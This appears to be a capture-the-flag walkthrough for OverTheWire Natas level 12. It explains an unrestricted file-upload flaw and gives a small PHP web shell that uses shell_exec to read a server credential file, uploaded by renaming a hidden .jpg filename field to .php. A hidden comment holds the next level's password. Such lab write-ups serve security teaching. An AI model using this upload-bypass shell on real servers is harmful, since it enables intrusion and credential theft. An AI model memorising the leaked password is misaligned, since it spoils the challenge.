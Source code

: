 We will log into the next level of the challenge using the credentials obtained from the previous level.

![untitled](ScreenShots/Level%2011%20->%2012.jpg)

We can observe the PHP code used in this level:
```php
<?php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);
        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {}
?>
```
From this code, it's evident that the server allows the upload of files with a specified filename.  
The goal is to upload a `PHP` script disguised as a `JPG` file to execute on the server.  
This will require bypassing the file extension restriction.

---
**Executing Terminal Commands in PHP**  
To execute commands on the server, we can use the shell_exec function in PHP.  
Official documentation and resources, such as [PHP.net](https://www.php.net/manual/en/function.shell-exec.php) and [GeeksforGeeks](https://www.geeksforgeeks.org/php-shell_exec-vs-exec-function/), provide insights into using this function.

---
We need to create a PHP file that outputs the password for the next level, stored in the `natas_webpass` directory. Using the `shell_exec` function, we can achieve this.  
Below is the PHP code for our payload:
```php
<?php 
$output = shell_exec('cat /etc/natas_webpass/natas13'); 
echo "<pre>$output</pre>"; 
?> 
```
Save this code to a `.php` file.  
The critical step is to ensure the server accepts it as a PHP file, not a `.jpg` file.  
From the source code, we see:
```html
<input type="hidden" name="filename" value="t39pfqfvta.jpg" />
```
When a file is uploaded, it gets renamed. We need to change this to a `.php` extension and upload our PHP file.  
Once uploaded, this file will reveal the password for the next level.

After obtaining the password, you can log into the next level using the following credentials:
```
URL: http://natas13.natas.labs.overthewire.org
Username: natas13
Password: Password obtained via uploading our PHP file
```
<!-- Password: `lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9` -->